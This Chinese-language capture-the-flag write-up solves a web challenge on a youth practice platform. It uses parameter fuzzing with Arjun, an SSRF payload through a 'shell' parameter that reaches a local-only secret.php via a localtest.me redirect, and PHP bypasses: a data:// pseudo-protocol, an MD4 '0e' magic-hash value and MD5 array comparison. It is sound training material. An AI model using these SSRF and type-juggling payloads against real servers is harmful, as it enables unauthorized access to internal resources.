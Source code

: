 ### JavaScript 接口泄露

话不多说，直接上提（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68166abe58cb8da5c8da0592.png)

打开网页不让 F12 以及右键

![](https://pic1.imgdb.cn/item/68166ab358cb8da5c8da0591.png)

Ctrl + U 发现有个 PHP 文件

![](https://pic1.imgdb.cn/item/68166b0a58cb8da5c8da059e.png)

访问页面后再次查看源码给出了提示

![](https://pic1.imgdb.cn/item/68166b4958cb8da5c8da05a8.png)

[安装工具](https://github.com/s0md3v/Arjun?tab=readme-ov-file)

```python
pip install arjun
```

![](https://pic1.imgdb.cn/item/68166bab58cb8da5c8da05b0.png)

执行命令

```shell
arjun -u http://challenge.qsnctf.com:31303/c3s4f.php
```

可以发现有个 `shell` 参数

![](https://pic1.imgdb.cn/item/68166c4c58cb8da5c8da05c4.png)

传入参数给出了新提示

![](https://pic1.imgdb.cn/item/68166cbb58cb8da5c8da05d0.png)

扫描目录发现有个 `secret.php`

![](https://pic1.imgdb.cn/item/68166dab58cb8da5c8da05e3.png)

只允许本地访问

![](https://pic1.imgdb.cn/item/68166d8958cb8da5c8da05dd.png)

结合提示以为是要伪造 XFF 或者 Client-IP，试过了都不行

利用 `shell` 参数构造 SSRF

```html
?shell=http://127.0.0.1/secret.php
```

无果

![](https://pic1.imgdb.cn/item/68166e4e58cb8da5c8da05ef.png)

使用域名跳转绕过

```
?shell=http://localtest.me/secret.php
```

![](https://pic1.imgdb.cn/item/68166ec458cb8da5c8da05fa.png)

访问拿到源码

![](https://pic1.imgdb.cn/item/68166f2258cb8da5c8da0601.png)

```php
<?php
show_source(__FILE__);
include('k4y.php');
include_once('flag.php');


// Challenge 1
if (isset($_GET['DrKn'])) {
    $text = $_GET['DrKn'];
    if(@file_get_contents($text) == $key) {
        echo "有点东西呢"."</br>".$key1."</br>";
    } else {
        die("貌似状态不在线啊(╯_╰)</br>");
    }
} 
    

// Challenge 2
if (isset($_GET[$key1])) {
    $damei = $_GET[$key1];
    if (hash("md4", $damei) == $damei) {
        echo "又近了一步呢，宝~"."</br>".$key2."</br>".$key3;
    } else {
        die("达咩哟~");
    }
} 


// Challenge 3
if (isset($_POST[$key2]) && isset($_POST[$key3])) {
    $user = $_POST[$key2];
    $pass = $_POST[$key3];
  
    if (strlen($user) > 4 || strlen($pass) > 5) {
          die("还得练");
      }
     if ($user !== $pass && md5($user) === md5($pass)) {  
          echo "还不错哦"."$flag";
      }
      else {
          die("nonono") ;
      }
    }

?>
```

第一关就是传入给出的 Key，但是需要用到 `data` 伪协议

![](https://pic1.imgdb.cn/item/6816712558cb8da5c8da0628.png)

第二关是一个 `md4` 的弱比较绕过，其实可以通过科学计算法比较绕过

也就是说要找一个明文是一个科学计算法 0e 开头的，然后其加密也是 0e 开头后面都是数字

```
&M_ore.8=0e001233333333333334557778889
```

最后一关就是 `md5` 强比较绕过，都为数组即可

![](https://pic1.imgdb.cn/item/681671c258cb8da5c8da0638.png)